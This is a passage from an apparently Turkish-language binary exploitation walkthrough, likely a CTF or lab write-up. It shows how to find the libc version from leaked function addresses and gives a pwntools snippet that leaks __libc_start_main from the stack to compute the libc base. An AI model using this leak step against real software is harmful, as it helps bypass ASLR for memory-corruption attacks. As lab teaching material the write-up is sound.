 Bu basit c programı bize sistemin kullandığı LIBC objesi içindeki 3 adet fonksiyonun adresini verecektir.

![libcver](assets/libcver.png)

Bu adresleri kullanarak LIBC database üzerinden libc versiyonumuzu elde edebiliriz. 

![libcdata](assets/libcdata.png)

Bu versiyon üzerinden base adresimizi hesaplayacağız. Hadi gelin ilk önce leak'imizi alalım. 

``` python
__libc_start_main_loc = buff + 152
p.send(hex(__libc_start_main_loc))
p.send("\n")
p.recvuntil("?: ")
main_start = p.recv(14)
log.info(b"Main LIBC START @:" + main_start)
```

Stack üzerinde `__libc_start_call_main()` adresi, bizim buffer adresimizden 152 byte sonra bulunuyor.

![libcloc](assets/libcloc.png)
